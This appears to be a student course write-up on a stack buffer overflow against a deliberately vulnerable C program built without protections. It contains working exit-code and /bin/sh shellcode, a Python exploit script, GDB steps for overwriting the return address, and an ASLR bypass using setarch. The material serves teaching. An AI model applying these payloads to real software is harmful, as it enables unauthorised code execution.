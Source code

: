 = Writeup
0x42697262; Orochi; Jinx
2024-02-24

Authors:

- 0x42697262
- Jinx
- Orochi

## Buffer overflow to exit

## TL;DR

Open GDB

```sh
gdb vuln
```

Run the program once

```
(gdb) r
```

Then exit (CTRL+C) and dissassemble the symbol `vuln`

```
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x5655617d <+0>:     push    %ebp
   0x5655617e <+1>:     mov     %esp,%ebp
   0x56556180 <+3>:     sub     $0x8,%esp
   0x56556183 <+6>:     lea     -0x8(%ebp),%eax
   0x56556186 <+9>:     push    %eax
   0x56556187 <+10>:    call    0xf7c741b0 <_IO_gets>
   0x5655618c <+15>:    add     $0x4,%esp
   0x5655618f <+18>:    nop
   0x56556190 <+19>:    leave
   0x56556191 <+20>:    ret
End of assembler dump.
```

Add a breakpoint on the first instruction and run it once again

```
(gdb) b *0x5655617d
Breakpoint 1 at 0x5655617d: file vuln.c, line 3.
(gdb) r
Breakpoint 1, vuln () at vuln.c:3
3	void vuln() {
```

Print the address of the variable `buffer`

```
(gdb) p &buffer
$1 = (char (*)[8]) 0xffffcd18
```

Craft the exploit with the shellcode payload and memory address of the `buffer`

```
\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff
```

Execute the exploit inside GDB

```
(gdb) r <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
```

The program should terminate with the exit status code `1`

```
[Inferior 1 (process 1027954) exited with code 01]
```

---

## Introduction

A vulnerable C source code is provided that accepts an unbounded number of non-null byte characters from standard input.
The goal is to construct a **shellcode** to cause the program to terminate with a desired **exit code** of `1` using a stack smashing attack.

Note that crashes due to malformed "shellcode" will not result in an exit code of `1` and therefore will not count.

---

## Pre-requisites

### Vulnerable C Source Code

```c
// vuln.c
#include <stdio.h>

void vuln() {
    char buffer[8];
    gets(buffer);
}

int main() {
    vuln();
    while (1) {
    }
}
```

### Tools

- GNU Compiler Collection (GCC)
- GNU Debugger (GDB)
- Netwide Assembler (NASM)
- objdump

### Compilation with disabled security protections

```sh
$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -fno-pie -ggdb -z execstack vuln.c -o vuln
```

- `-fno-stack-protector` disables stack smashing protection.
- `-m32` generate 32-bit architecture code.
- `-mpreferred-stack-boundary=2` stack boundary should be aligned in 4 bytes.
- `-ggdb` generate debug information compatible with the GDB debugger.
- `-fno-pie` disables position-independent executable (PIE) generation which randomizes the base address of the executable.
- `-z execstack` sets the stack as executable.

This compilation step is necessary otherwise it would almost be a bit harder to execute this type of buffer overflow.

```
*** stack smashing detected ***: terminated
[1]    1024635 IOT instruction (core dumped)
```

### Shellcode

Generally, we should acquire the shellcode somewhere like Shell-Storm.
But for the sake of learning, we can generate our own shellcode.
Knowledge in assembly language would be needed.
We have this shellcode that terminates the program with exit status code `1`

```asm
section .text
global main

main:
    xor eax, eax   ; Clear EAX register
    inc eax        ; Increment EAX to 1
    mov ebx, eax   ; Move the value of EAX into EBX (not %eab)
    int 0x80       ; Invoke system call
```

To compile,

```sh
$ nasm -f elf32 shellcode.asm -o shellcode.o
```

This should output an ELF LSB relocatable code `ELF 32-bit LSB relocatable, Intel 80386, version 1 (SYSV), not stripped`.
To acquire the shellcode to be used for the explotation payload, we can use `objdump`

```sh
$ objdump -M intel -d solutions/shellcode.o
```

Its output would be

```
solutions/shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <main>:
   0:   31 c0                   xor    eax,eax
   2:   40                      inc    eax
   3:   89 c3                   mov    ebx,eax
   5:   cd 80                   int    0x80
```

Putting all the bytes together, our shellcode is

```
\x31\xc0\x40\x89\xc3\xcd\x80
```

Which is just 7 bytes long.

## Methodology

The exit shellcode is 7 bytes long, small enough to fit inside the buffer, which has a size of 8 bytes.
The memory address location of the `buffer` will be used as the return address, as it is where the shellcode will be stored.
The next stack after `buffer` is the base pointer (EBP), and after the base pointer is the return address of the `vuln` function, which will be modified to point to the memory address of the `buffer`.

With this, an exploit can be crafted to terminate the program with the desired exit status code of `1`.

First, run GDB with the program as the parameter

```sh
$ gdb vuln
```

And should be greeted with

```
Reading symbols from vuln...
(gdb)
```

But set the assembly language syntax first to Intel

```
(gdb) set disassembly-flavor intel
```

---

### Enumeration

Since the binary is not stripped, the function symbols can be printed.
Disassemble the `main` and `vuln` symbols in assembly language using the `disassemble` command.

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x00001192 <+0>:     push    ebp
   0x00001193 <+1>:     mov     ebp,esp
   0x00001195 <+3>:     call    0x117d <vuln>
   0x0000119a <+8>:     jmp     0x119a <main+8>
End of assembler dump.

(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x0000117d <+0>:     push    ebp
   0x0000117e <+1>:     mov     ebp,esp
   0x00001180 <+3>:     sub     esp,0x8
   0x00001183 <+6>:     lea     eax,[ebp-0x8]
   0x00001186 <+9>:     push   eax
   0x00001187 <+10>:    call    0x1188 <vuln+11>
   0x0000118c <+15>:    add     esp,0x4
   0x0000118f <+18>:    nop
   0x00001190 <+19>:    leave
   0x00001191 <+20>:    ret
End of assembler dump.
```

The address of `buffer` must be known.
However, breakpoints cannot be added yet since the memory of the program is not yet allocated.

```
(gdb) run
```

And exit (CTRL+C).

Disassemble the symbols again for `vuln`:

```
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x5655617d <+0>:     push    ebp
   0x5655617e <+1>:     mov     ebp,esp
   0x56556180 <+3>:     sub     esp,0x8
   0x56556183 <+6>:     lea     eax,[ebp-0x8]
   0x56556186 <+9>:     push    eax
   0x56556187 <+10>:    call    0xf7c741b0 <_IO_gets>
   0x5655618c <+15>:    add     esp,0x4
   0x5655618f <+18>:    no
   0x56556190 <+19>:    leave
   0x56556191 <+20>:    ret
End of assembler dump.
```

The proper memory addresses can now be seen.
Add a breakpoint to the first instruction `push ebp`:

```
(gdb) break *0x5655617d
Breakpoint 1 at 0x5655617d: file vuln.c, line 3.
```

An `*` is needed since the address is a pointer.

Define hooks for the breakpoint:

```
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/16wx $esp
>end
```

These commands will automatically execute once a breakpoint is hit.
What it does is print out the instruction pointer of the current function and print out the 16 bytes of the stack pointer.

Rerun the program:

```
(gdb) run
=> 0x5655617d <vuln>:	push   ebp
0xffffcd24:	0x5655619a	0x00000000	0xf7c20af9	0x00000001
0xffffcd34:	0xffffcde4	0xffffcdec	0xffffcd50	0xf7e1fe2c
0xffffcd44:	0x56556192	0x00000001	0xffffcde4	0xf7e1fe2c
0xffffcd54:	0xffffcdec	0xf7ffcb60	0x00000000	0xa8a49fe9

Breakpoint 1, vuln () at vuln.c:3
3	void vuln() {
```

There are still no inputs provided here but the memory address of the `buffer` can already be acquired.

```
(gdb) print &buffer
$1 = (char (*)[8]) 0xffffcd18
```

The memory address of `buffer` is stored at `0xffffcd18` and this is where the standard input is stored.
To check, add another breakpoint on the `ret` instruction and continue the execution:

```
(gdb) break *0x56556191
Breakpoint 2 at 0x56556191: file vuln.c, line 6.
(gdb) continue
Continuing.
AAAABBBBCCCCDDDDAAAABBBBCCCCDDDD
=> 0x56556191 <vuln+20>:	ret
0xffffcd24:	0x44444444	0x41414141	0x42424242	0x43434343
0xffffcd34:	0x44444444	0xffffcd00	0xffffcd50	0xf7e1fe2c
0xffffcd44:	0x56556192	0x00000001	0xffffcde4	0xf7e1fe2c
0xffffcd54:	0xffffcdec	0xf7ffcb60	0x00000000	0xa8a49fe9

Breakpoint 2, 0x56556191 in vuln () at vuln.c:6
6	}
```

The input for this was `AAAABBBBCCCCDDDDAAAABBBBCCCCDDDD` as can be seen, the bytes got replaced up until `0xffffcd37`.
The contents of the `buffer` and the succeeding pointers can be checked by using the command `x/16wx`:

```
(gdb) x/16wx &buffer
0xffffcd18:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffcd28:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffcd38:	0xffffcd00	0xffffcd50	0xf7e1fe2c	0x56556192
0xffffcd48:	0x00000001	0xffffcde4	0xf7e1fe2c	0xffffcdec
```

The first 8 bytes (`0x41414141	0x42424242`) are the buffer's contents.
The next 4 bytes (`0x43434343`) is the base pointer.
The next 4 bytes (`0x44444444`) is the return address which will be modified to point to the address of the `buffer` (at `0xffffcd18`).

### Exploitation

We can use any means necessary to send raw bytes to the input, but to make things simpler, we will be using `echo`.
Notice that the structure of the memory address is as follows:

```
[ 0x-------- 0x-------- ] [ 0x-------- ] [ 0x-------- ] ...
          buffer                ebp           esp
```

The payload `\x31\xc0\x40\x89\xc3\xcd\x80` can be stored on the `buffer`'s memory space:

```
[ 0x8940c031 0x--80cdc3 ] [ 0x-------- ] [ 0x-------- ] ...
          buffer                ebp           esp
```

Notice that the raw bytes are stored in little-endian system.

Since the size of the payload is only 7 bytes long, NOP (no operation) instruction must be appended in order for the return address (ESP) to be modified.
The total size of the buffer and the EBP is 12 bytes.
Thus, there are 5 bytes worth of NOPs to be padded.

```
[ 0x8940c031 0x9080cdc3 ] [ 0x90909090 ] [ 0x-------- ] ...
          buffer                ebp           esp
```

The equivalent shellcode is now `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90`.

Next is to add the memory address of the `buffer`.

```
[ 0x8940c031 0x9080cdc3 ] [ 0x90909090 ] [ 0xffffcd18 ] ...
          buffer                ebp           esp
```

Thus, the final shellcode is `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff`.
We can store the shellcode to our `egg`:

```sh
$ echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff" > egg
```

## Documentation of Proofs

To execute the exploit, run:

```
(gdb) run < egg
```

or

```
(gdb) run <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
```

Which should successfully terminate the program with desired exit status:

```
[Inferior 1 (process 1075597) exited with code 01]
```

---

## Conclusion

Stack smashing is an archaic method of binary exploitation and past computers are vulnerable against this type of exploitation.
However, thanks to the Address Space Layout Randomization (ASLR) that modern operating systems are equipped with, it would be very difficult to execute this exploit in the current times.
Aside from ASLR, the `egg` machine code would not work universally to different computers due to how memory layouts are arranged since not every computers have the same memory size and the same applications ran.
Nonetheless, this is a fun exercise and we have learned a lot from it.

Solution files can be found here:

- https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/egg[egg]
- https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/exploit.py[exploit.py]
- https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/shellcode.asm[shellcode.asm]
- https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/shellcode.o[shellcode.o]

---

## Acknowledgement and References

- https://www.youtube.com/@LiveOverflow[LiveOverflow] for usage of GDB.
- http://phrack.org/issues/49/14.html[Phrack Volume 7 Issue 49: Smashing The Stack For Fun And Profit] for teaching us on smashing the stack.
- https://practicalbinaryanalysis.com/[Practical Binary Analysis] for teaching assembly and basics of ELF.
- https://shell-storm.org/shellcode/index.html[Shell-Storm] for providing shellcodes.

## Extra

### Return Me Shell!

Writing a shellcode for exit status is quite boring.

Why don't we pop a shell instead?

Since it's annoying to use `echo` to generate our shellcode, we will be using our handy scripting language... Python!

To pop a shell, we need a shellcode for it.
Thankfully, we don't need to make one from scratch (because assembly is pain y'know) thanks to Shell-Storm.

```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

This is probably at least 40 bytes long which does not fit inside the buffer's 8 byte size.

Save the shellcode in Python and add the other stuffs as well

```python
OFFSET      = b"\x41"
EIP         = b"\x18\xcd\xff\xff"
NOP         = b"\x90"
SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

exploit     = OFFSET * 12 + EIP + NOP*4 + SHELLCODE

print(exploit)
```

And that's it!

Except this would not work because of how Python's `print()` function works.
To prove this, we will compare echo's output against Python's output

```sh
$ echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x18\xcd\xff\xff\x90\x90\x90\x90\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" > eggshell
$ xxd eggshell
00000000: 4141 4141 4141 4141 4141 4141 18cd ffff  AAAAAAAAAAAA....
00000010: 9090 9090 31c0 31db b006 cd80 5368 2f74  ....1.1.....Sh/t
00000020: 7479 682f 6465 7689 e331 c966 b912 27b0  tyh/dev..1.f..'.
00000030: 05cd 8031 c050 682f 2f73 6868 2f62 696e  ...1.Ph//shh/bin
00000040: 89e3 5053 89e1 99b0 0bcd 80              ..PS.......

$ python exploit2.py > eggshell2 && xxd eggshell2
00000000: 6222 4141 4141 4141 4141 4141 4141 5c78  b"AAAAAAAAAAAA\x
00000010: 3138 5c78 6364 5c78 6666 5c78 6666 5c78  18\xcd\xff\xff\x
00000020: 3930 5c78 3930 5c78 3930 5c78 3930 315c  90\x90\x90\x901\
00000030: 7863 3031 5c78 6462 5c78 6230 5c78 3036  xc01\xdb\xb0\x06
00000040: 5c78 6364 5c78 3830 5368 2f74 7479 682f  \xcd\x80Sh/ttyh/
00000050: 6465 765c 7838 395c 7865 3331 5c78 6339  dev\x89\xe31\xc9
00000060: 665c 7862 395c 7831 3227 5c78 6230 5c78  f\xb9\x12'\xb0\x
00000070: 3035 5c78 6364 5c78 3830 315c 7863 3050  05\xcd\x801\xc0P
00000080: 682f 2f73 6868 2f62 696e 5c78 3839 5c78  h//shh/bin\x89\x
00000090: 6533 5053 5c78 3839 5c78 6531 5c78 3939  e3PS\x89\xe1\x99
000000a0: 5c78 6230 5c78 3062 5c78 6364 5c78 3830  \xb0\x0b\xcd\x80
000000b0: 220a                                     ".

$ sha256sum eggshell eggshell2
b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell
2fb5cad2ba0574d4ac536518b463de6ed4846e8f4dfa635910b71d7c1cdcc757  eggshell2
```

As you can see, the raw bytes of Python's print output is a mess and the hash values are not the same.
Hence, Python's print function should not be used
But, this can be fixed by using a standard library output.
The updated code is now:

```python
import sys
OFFSET      = b"\x41"
EIP         = b"\x18\xcd\xff\xff"
NOP         = b"\x90"
SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

exploit     = OFFSET * 12 + EIP + NOP*4 + SHELLCODE

sys.stdout.buffer.write(exploit)
```

Checking it once again:

```sh
$ python exploit2.py > eggshell2 && xxd eggshell2
00000000: 4141 4141 4141 4141 4141 4141 18cd ffff  AAAAAAAAAAAA....
00000010: 9090 9090 31c0 31db b006 cd80 5368 2f74  ....1.1.....Sh/t
00000020: 7479 682f 6465 7689 e331 c966 b912 27b0  tyh/dev..1.f..'.
00000030: 05cd 8031 c050 682f 2f73 6868 2f62 696e  ...1.Ph//shh/bin
00000040: 89e3 5053 89e1 99b0 0bcd 80              ..PS.......

$ sha256sum eggshell eggshell2
b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell
b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell2
```

Both shellcodes are now equal.

Python can now be used to exploit the vulnerable binary:

```sh
$ python exploit.py | ./vuln
```

This is done by piping Python's output to the input of the program.
However, this would not work and would cause an illegal instruction error:

```sh
[1]    1090485 done                              python exploit2.py |
       1090486 segmentation fault (core dumped)  ./vuln
```

This is because of ASLR randomizing the memory allocations everytime the program is run.
To disable ASLR without disabling the system's protection, one can do this:

```sh
$ python exploit.py | setarch $(uname -m) -R ./vuln
```

This execution may or may not work as the memory addresses in GDB compared to being run directly are different.
This can be fixed by figuring out the exact memory address.
There are many ways to do it but the simplest one that we have already done is through GDB and attaching GDB to the process of the program.
The process of debugging with an attached process is similar.

First run the vulnerable program with `setarch` and open up another terminal with GDB by attaching to the vulnerable process:

```sh
$ setarch $(uname -m) -R ./vuln
$ gdb -p <process id>
```

To find the process id, use `ps aux`.

And if this does not work, we can use `gcore` to dump the current memory of a process id and manually find our input:

```sh
$ gcore <process id>
```

Run the program again and find its process id:

```sh
$ setarch $(uname -m) -R ./vuln
$ ps aux | grep vuln

birb     1450296 71.4  0.0   2732  1096 pts/9    R+   10:32   5:17 ./vuln
```

Here, the process id is `1450296`.
We then dump the memory of the process after our input back in the program (I used `ABCD`):

```sh
$ gcore 1450296

[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
0x5655619a in main ()
Saved corefile core.1450296
[Inferior 1 (process 1450296) detached]
```

This will create a core file dump in binary format.
Read the coredump in hex using any hex editor tools available, we'll use good old `xxd` and pipe it to `vim`:

```sh
$ xxd -g 4 core.1450296 | vim
```

Then find the input (which is `ABCD`).
There will be two results, find the memory addresses that contains the most likely data:

```
...
000043c0: 00000000 00000000 00000000 00000000  ................
000043d0: 11040000 41424344 0a000000 00000000  ....ABCD........
000043e0: 00000000 00000000 00000000 00000000  ................
...
```

vs:

```
...
00074f50: 00000000 2cfee1f7 0cceffff 60cbfff7  ....,.......`...
00074f60: 40cdffff 8c615556 38cdffff 41424344  @....aUV8...ABCD
00074f70: 00000000 48cdffff 9a615556 00000000  ....H....aUV....
...
```

The second result is more likely to contain the EBP and ESP.
We will use `0xffffcd48` (which is taken from `0xffffcd38` by adding 16 bytes) as the new return address

Replace the EIP in the script with the correct return address, we can now rerun the exploit:

```python
$ python exploit.py | setarch $(uname -m) -R ./vuln
sh-5.2$ uname -a
Linux NuclearChicken 6.7.4-arch1-1 #1 SMP PREEMPT_DYNAMIC Mon, 05 Feb 2024 22:07:49 +0000 x86_64 GNU/Linux
```

And voila!
We got a shell!

To conclude, there is not much difference in doing this method compared to GDB aside from automating the exploitation.
The difficulty of running the program outside GDB lies on the ASLR (if enabled) and computers allocating memory differently.
Aside from that, for the shellcode, there is no need to include the NOPs.
